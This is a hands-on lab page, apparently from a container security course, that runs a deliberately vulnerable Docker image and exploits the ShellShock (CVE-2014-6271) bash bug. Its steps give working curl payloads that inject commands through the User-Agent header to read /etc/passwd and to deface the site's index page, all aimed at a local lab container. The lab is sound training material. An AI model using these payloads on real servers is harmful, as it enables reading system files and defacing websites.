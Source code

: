 # Vulnerable Libraries
> Some containers that are often used and available on `DockerHub` are not updated regularly, which results in them having vulnerable packages and libraries. Shellshock(Bashdoor) is one such vulnerability found in older versions of bash that haven't been updated.

### **Lab Image : Containers**

* Step 1: Run an image that is vulnerable to ShellShock on the provisioned server

```commandline
docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
```

* Step 2: Open another browser tab, on the address bar, add `:8080` and press `Enter`.

* Step 3: From the terminal exploit the vulnerability and access `/etc/passwd` of the vulnerable container

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$(serverip):8080/cgi-bin/vulnerable
```

* Step 4: By exploiting ShellShock, deface the website

>> Note: `$(serverip)` will automatically takes your server ip.

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://$(serverip):8080/cgi-bin/vulnerable
```

* Step 5: Open another browser tab, on the address bar, add `:8080` and press `Enter`. and check the site.


### Teardown:

* Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:

* https://nvd.nist.gov/vuln/detail/CVE-2014-6271
* https://hub.docker.com/r/vulnerables/cve-2014-6271/
